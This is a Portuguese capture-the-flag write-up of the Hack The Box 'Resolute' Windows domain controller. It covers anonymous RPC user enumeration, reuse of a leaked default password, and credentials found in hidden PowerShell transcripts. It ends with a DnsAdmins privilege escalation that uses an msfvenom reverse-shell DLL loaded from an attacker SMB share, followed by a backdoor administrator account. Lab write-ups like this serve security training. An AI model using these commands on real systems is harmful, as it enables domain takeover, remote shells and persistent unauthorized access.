

- Resolução da máquina Resolute 1. Máquina Medium (hackthebox.com) 2. by JavaliMZ - 17/09/2021
- Enumeração
- PrivEsc
- Grupo MEGABANK\DnsAdmins
- We are authority\system

Resolução da máquina Resolute
Máquina Medium (hackthebox.com)
by JavaliMZ - 17/09/2021
Enumeração
A primeira fase de todo e qualquer PenTesting é a fase de enumeração. Para isso, irei utilizar a clássica ferramenta NMAP.
Montes de portas para esta máquina! Ainda nunca me lembrei de falar de uma função que tenho definida a nível de zshrc. Para quem segue o S4vitar, sabe certamente da sua utilidade "exctractports" (Atenção à prenuncia: igzxtráááááctPóórt). E para quem não conhece, recomendo vivamente!! (https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q). Alterei um pouco a função dele para se adequar ao meu ambiente WSL2 e para copiar para clipboard não só as portas, mas também o "nmap
extractPorts () {
reset="\e[0m"
amarelo="\e[1;33m"
verde="\e[1;32m"
vermelho="\e[1;31m"
checkAmarelo="$amarelo [*]$reset"
check=" $verde✔$reset"
ports=$(cat $1 | grep -oP '(?<=Ports:).*' | sed "s/,/\n/g" | sed 's/\// /g' | awk '{print $1}' | tr '\n' ',' | sed 's/,$/\n/')
portsComEspacos=$(cat $1 | grep -oP '(?<=Ports:).*' | sed "s/,/\n/g" | sed 's/\// /g' | awk '{print $1}' | tr '\n' ',' | sed 's/,$/\n/' | sed 's/,/, /g')
ip=$(cat $1 | grep Host | awk '{print $2}' | uniq)
echo "Enumeração das portas:\n" > /tmp/nmapTmp.txt
echo "$checkAmarelo \tIP Address: $ip" >> /tmp/nmapTmp.txt
echo "$checkAmarelo \tOpen Ports: $portsComEspacos \n" >> /tmp/nmapTmp.txt
cmd="nmap -p$ports $ip"
echo "$verde Sugestão (copiado em clipboard):$reset \t\t $cmd" >> /tmp/nmapTmp.txt
/usr/bin/batcat /tmp/nmapTmp.txt
rm /tmp/nmapTmp.txt
echo "$cmd" | clip.exe
}

# Nmap 7.91 scan initiated Fri Sep 17 09:53:36 2021 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49688,49711,54059 -sC -sV -Pn -oN enumeration/nmap-A.txt 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.041s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2021-09-17 09:00:45Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49676/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open msrpc Microsoft Windows RPC
49688/tcp open msrpc Microsoft Windows RPC
49711/tcp open msrpc Microsoft Windows RPC
54059/tcp closed unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h27m02s, deviation: 4h02m32s, median: 7m00s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Resolute
| NetBIOS computer name: RESOLUTE\x00
| Domain name: megabank.local
| Forest name: megabank.local
| FQDN: Resolute.megabank.local
|_ System time: 2021-09-17T02:01:38-07:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2021-09-17T09:01:37
|_ start_date: 2021-09-16T18:30:10
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 17 09:54:44 2021 -- 1 IP address (1 host up) scanned in 67.49 seconds
Esta máquina é muito provavelmente um Active Directory / Domain Controller (AD/DC). Tem kerberos, samba, winrm, ldap...
Neste momento, temos escolha, mas o caminho que recomendo seguir é tentar entrar nos diversos serviços anonimamente ou com unuário "null" ou "guest".
Servidor Samba
Por Samba, não nos é possível ver nada, a não ser o nome de domain e nome da máquina
Com outras ferramentas como smbclient ou smbmap também não se pode enumerar nada de interessante...
Servidor RPC
Com "rpcclient" a coisa é diferente. Já se pode entrar em modo anónimo com usuário "" (vazio)
rpcclient -U '' 10.10.10.169 -N
Desta forma entramos em modo interativo e é possível introduzir comandos, tendo neste caso respostas. Mas esta ferramenta também pode ser usada com o parametro "-c" que nos permite enviar o commando, e obter resposta em output normal.
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers'
#> user:[Administrator] rid:[0x1f4]
#> user:[Guest] rid:[0x1f5]
#> user:[krbtgt] rid:[0x1f6]
#> user:[DefaultAccount] rid:[0x1f7]
#> user:[ryan] rid:[0x451]
#> user:[marko] rid:[0x457]
#> user:[sunita] rid:[0x19c9]
#> user:[abigail] rid:[0x19ca]
#> user:[marcus] rid:[0x19cb]
#> user:[sally] rid:[0x19cc]
#> user:[fred] rid:[0x19cd]
#> user:[angela] rid:[0x19ce]
#> user:[felicia] rid:[0x19cf]
#> user:[gustavo] rid:[0x19d0]
#> user:[ulf] rid:[0x19d1]
#> user:[stevie] rid:[0x19d2]
#> user:[claire] rid:[0x19d3]
#> user:[paulo] rid:[0x19d4]
#> user:[steve] rid:[0x19d5]
#> user:[annette] rid:[0x19d6]
#> user:[annika] rid:[0x19d7]
#> user:[per] rid:[0x19d8]
#> user:[claude] rid:[0x19d9]
#> user:[melanie] rid:[0x2775]
#> user:[zach] rid:[0x2776]
#> user:[simon] rid:[0x2777]
#> user:[naoki] rid:[0x2778]
Desta forma, podemos filtar o output, exportar para ficheiro e tal, como qualquer outro commando do sistema.
A primeira a coisa a fazer é gravar para um ficheiro todos os usernames
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d "[]" > contents/users
Depois disso, podemos extrair mais informações. O RPC funciona com queries ao rid e não ao username.
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]" | xargs
#> 0x1f4 0x1f5 0x1f6 0x1f7 0x451 0x457 0x19c9 0x19ca 0x19cb 0x19cc 0x19cd 0x19ce 0x19cf 0x19d0 0x19d1 0x19d2 0x19d3 0x19d4 0x19d5 0x19d6 0x19d7 0x19d8 0x19d9 0x2775 0x2776 0x2777 0x2778
Com todos os rids, podemos pedir detalhes de cada um e filtrar apenas os campos que nos interessa usando vários rpcclient com apenas uma linha de commando...
O que nos interessa por enquanto é obter informações básica. Queremos saber os nomes de usuários, e se o mesmo foi criado com alguma descrição que possamos usar no futuro. Em empresas, é comum mencionar dados sensíveis no campo de descrição quando o administrador cria um novo usuário (password por defeito, função, email, contacto telefónico...). É claro que, para um CaptureTheFlag, o número de telefone não me é muito util (provavelmente ser um fictício lol), mas uma palavra passe dá sempre jeito =).
for rid in $(rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]"); do echo; rpcclient -U '' 10.10.10.169 -N -c "queryuser $rid" | grep -E "User Name|Description"; done
#> User Name : Administrator
#> Description : Built-in account for administering the computer/domain
#>
#> User Name : Guest
#> Description : Built-in account for guest access to the computer/domain
#>
#> User Name : krbtgt
#> Description : Key Distribution Center Service Account
#>
#> User Name : DefaultAccount
#> Description : A user account managed by the system.
#>
#> User Name : ryan
#> Description :
#>
#> User Name : marko
#> Description : Account created. Password set to Welcome123!
#>
#> User Name : sunita
#> ...
Aí está! Account created. Password set to Welcome123!. Isto é promissor.
Vamos validar a palavra passe sempre da mesma maneira... Com recurso ao crackmapexec
Bem a credencial não está boa! Porquê? Talvés porque esteja errada... Mas temos de pensar mais além! Welcome123! é muito convidativo lol. Poderá ser a password por defeito que o administrador dá quando cria um novo usuário, e para todos os novos usuários... Bem podemos tentar ver se algum usuário foi preguiçoso e não mudou a sua palavra pass...

Melanie... melanie... A preguicita aguda da nossa amiga Melanie permite-nos entrar via WinRM com a ferramenta evil-winrm
PrivEsc
O proximo passo é muito à moda CTF (acho eu). É perciso encontrar um ficheiro oculto que contém umas credenciais de um outro usuário que está num grupo assim especial ;).
O ficheiro está oculto
cd C:\
dir -Force
#> Directory: C:\
#>
#>
#> Mode LastWriteTime Length Name
#> ---- ------------- ------ ----
#> d--hs- 9/16/2021 2:16 PM $RECYCLE.BIN
#> d--hsl 9/25/2019 10:17 AM Documents and Settings
#> d----- 9/25/2019 6:19 AM PerfLogs
#> d-r--- 9/25/2019 12:39 PM Program Files
#> d----- 11/20/2016 6:36 PM Program Files (x86)
#> d--h-- 9/25/2019 10:48 AM ProgramData
#> d--h-- 12/3/2019 6:32 AM PSTranscripts
#> d--hs- 9/25/2019 10:17 AM Recovery
#> d--hs- 9/25/2019 6:25 AM System Volume Information
#> d-r--- 12/4/2019 2:46 AM Users
#> d----- 12/4/2019 5:15 AM Windows
#> -arhs- 11/20/2016 5:59 PM 389408 bootmgr
#> -a-hs- 7/16/2016 6:10 AM 1 BOOTNXT
#> -a-hs- 9/16/2021 11:29 AM 402653184 pagefile.sys
cd "C:/PSTranscripts"
dir -Force
#> Directory: C:\PSTranscripts
#>
#>
#> Mode LastWriteTime Length Name
#> ---- ------------- ------ ----
#> d--h-- 12/3/2019 6:45 AM 20191203
cd "C:/PSTranscripts/20191203"
dir -Force
#> Directory: C:\PSTranscripts\20191203
#>
#>
#> Mode LastWriteTime Length Name
#> ---- ------------- ------ ----
#> -arh-- 12/3/2019 6:45 AM 3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
type "C:/PSTranscripts/20191203/PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"
# Pelo meio da resposta, vê-se o seguinte:
#> Command start time: 20191203063515
#> **********************
#> PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
#> >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
A nova credencial é ryan:Serv3r4Admin4cc123!
Vamos validar estas novas credenciais com crackmapexec (como sempre...)

Ambos os serviços indicam (Pwn3d!), O que significa que podemos executar commando tanto pelo crackmapexec em modo smb com o parametro "-x", como por WinRM. Mas como é mais directo por WinRM, não me vou privar...
Vimos na foto o tal grupo.
Grupo MEGABANK\DnsAdmins
Este group permite aos seus membros configurar, iniciar, e parar o serviço dns do windows. O serviço DNS pode carregar configurações a partir de ficheiros.dll. E este serviço é iniciado com privilégios máximos de Authority System! Posto isso, é fácil elaborar um exploit para nos converter-mos em administrador da máquina. O commando que queremo que o alvo execute é um reverse shell
Criação do ficheiro.dll malicioso
[Environment]::Is64BitOperatingSystem
#> True
A máquina é de 64 bits, portanto o reverse shell terá de 64 bits
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f dll -o rev.dll
Iremos agora transferir o ficheiro para a máquina alvo com, por exemplo, certutil:

OH SHIT! O antivírus está ativo... Temos 2 soluções, ou ofuscar o código (que pode levar alguma tentativas porque não fica um ficheiro limpo) ou partilhar um servidor Samba, porque o dll malicioso pode ser chamado a partir de fora da máquina alvo!
sudo smbserver.py smbFolder $(pwd) -smb2support # o reverse shell tem de se encontrar na pasta onde se executa o commando
sudo rlwrap nc -lvnp 443
dnscmd /config /serverlevelplugindll \\10.10.14.12\smbFolder\rev.dll
#> Registry property serverlevelplugindll successfully reset.
#> Command completed successfully.
sc.exe stop dns
# Espere uns 5 segundos (Porque é Windows...)
sc.exe start dns

We are authority\system
A partir daí, podemos recuperar as flags... Mas antes, apenas para o fun, vamos criar uma certa persistência. Podemos criar um usuário, e adicioná-lo ao grupo de Administradores para poder entrar sempre que quisermos via WinRM.
net user javali J4v4li123! /add
net localgroup Administrators javali /add
Vamos validar com crackmapexec, e tentar entrar via WinRM
# Flags parciais
(type C:\Users\melanie\Desktop\user.txt).substring(0,15)
#> 0c3be45fcfe2497
(type C:\Users\Administrator\Desktop\root.txt).substring(0,15)
#> e1d94876a506850